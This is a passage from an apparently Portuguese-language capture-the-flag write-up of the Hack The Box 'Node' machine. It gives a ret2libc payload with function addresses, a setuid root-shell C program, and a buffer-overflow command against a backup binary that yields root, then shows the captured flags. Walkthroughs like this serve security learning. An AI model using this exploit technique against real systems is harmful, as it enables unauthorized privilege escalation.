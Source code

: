 Montamos nosso payload da seguinte maneira

0x080486a0 system()
0x080486c0 exit()
0x08049ed5 /tmp/.backup_%i

Agora devemos criar um arquivo .backup lá com um shell

shell.c
```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main(void)
{
    setuid(0);
    system("/bin/sh");
    return 0;
}
```

Compilamos ele

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_shell.png)

Modificamos o nome para /tmp/.backup_%i e tornamos ele executável

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_shell1.png)

Agora executamos o payload e ganhamos root

`/usr/local/bin/backup teste 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 $(python2 -c 'print("A"*512+"\xa0\x86\x04\x08"+"\xc0\x86\x04\x08"+"\xd5\x9e\x04\x08")')`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_shell2.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_shell3.png)

Show!

Agora pegamos as flags de user e root

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-node/N_root.png)